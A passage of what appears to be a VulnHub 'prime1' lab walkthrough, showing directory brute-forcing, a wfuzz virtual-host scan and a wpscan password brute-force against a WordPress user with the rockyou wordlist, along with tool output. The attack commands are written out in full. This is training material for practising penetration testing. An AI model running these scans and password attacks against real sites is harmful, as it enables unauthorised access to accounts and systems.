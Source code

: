 301        9l       28w      318c http://192.168.1.237/wordpress
301        9l       28w      329c http://192.168.1.237/javascript/prototype
301        9l       28w      327c http://192.168.1.237/wordpress/wp-admin
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_192_168_1_237-1621938928.state ...
[########>-----------] - 13m  3169419/7642710 18m     found:8       errors:170    
[###################>] - 13m  1224635/1273785 1518/s  http://192.168.1.237
[##########>---------] - 11m   653362/1273785 939/s   http://192.168.1.237/javascript
[#########>----------] - 11m   629594/1273785 915/s   http://192.168.1.237/javascript/jquery
[#######>------------] - 9m    461867/1273785 794/s   http://192.168.1.237/wordpress
[##>-----------------] - 4m    174995/1273785 618/s   http://192.168.1.237/javascript/prototype
[>-------------------] - 50s    24960/1273785 495/s   http://192.168.1.237/wordpress/wp-admin

## Cancelled

Add:
192.168.1.237   prime1
to /etc/hosts

## Vhosts scan

┌──(root💀kali)-[/opt/vulnhub/prime1]
└─# wfuzz -c -f sub-fighter -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u "http://prime1" -H "Host: FUZZ.prime1" -t 42 --hw 12
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzzs documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://prime1/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                     
000009532:   400        12 L     53 W       422 Ch      "#www"                           000010581:   400        12 L     53 W       422 Ch      "#mail"                         000047706:   400        12 L     53 W       422 Ch      "#smtp"                         000103135:   400        12 L     53 W       422 Ch      "#pop3"                         

Total time: 83.20830
Processed Requests: 114441
Filtered Requests: 114437
Requests/sec.: 1375.355

Nothing

## Try password attack on wordpress

┌──(root💀kali)-[/opt/vulnhub/prime1]
└─# wpscan -U victor -P /usr/share/wordlists/rockyou.txt --url http://prime1/wordpress 
_______________________________________________________________

[+] URL: http://prime1/wordpress/ [192.168.1.237]
[+] Started: Tue May 25 06:39:06 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://prime1/wordpress/xmlrpc.php